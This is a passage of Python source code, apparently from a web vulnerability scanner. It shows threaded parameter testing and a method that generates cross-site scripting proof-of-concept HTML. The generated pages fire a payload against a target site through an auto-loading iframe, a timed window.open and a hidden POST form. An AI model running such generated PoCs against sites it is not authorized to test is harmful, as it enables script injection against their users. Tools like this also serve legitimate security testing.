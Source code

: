 ```python
        with ThreadPoolExecutor(max_workers=10) as executor:
            futures = [executor.submit(test_parameter, param) for param in parameter_list]
            
            for future in futures:
                result = future.result()
                results.append(result)
        
        return results
    
    def generate_xss_poc(self, vulnerability_info):
        """Generate XSS Proof of Concept"""
        param = vulnerability_info['parameter']
        payload = vulnerability_info['payload']
        method = vulnerability_info['method']
        
        if method.upper() == 'GET':
            poc_url = f"{self.target}?{param}={urllib.parse.quote(payload)}"
            poc_html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>XSS Proof of Concept</title>
</head>
<body>
    <h1>Cross-Site Scripting (XSS) PoC</h1>
    <p><strong>Target:</strong> {self.target}</p>
    <p><strong>Parameter:</strong> {param}</p>
    <p><strong>Payload:</strong> {payload}</p>
    
    <h2>Automatic Execution</h2>
    <iframe src="{poc_url}" width="100%" height="400"></iframe>
    
    <h2>Manual Execution</h2>
    <a href="{poc_url}" target="_blank">Click here to trigger XSS</a>
    
    <script>
        // Automatic execution after 2 seconds
        setTimeout(function() {{
            window.open("{poc_url}", "_blank");
        }}, 2000);
    </script>
</body>
</html>
'''
        else:
            poc_html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>XSS Proof of Concept - POST</title>
</head>
<body>
    <h1>Cross-Site Scripting (XSS) PoC</h1>
    <p><strong>Target:</strong> {self.target}</p>
    <p><strong>Parameter:</strong> {param}</p>
    <p><strong>Payload:</strong> {payload}</p>
    
    <form id="xssForm" action="{self.target}" method="POST" target="xssFrame">
        <input type="hidden" name="{param}" value="{payload}">
        <input type="submit" value="Execute XSS">
    </form>
    
    <iframe name="xssFrame" width="100%" height="400"></iframe>
```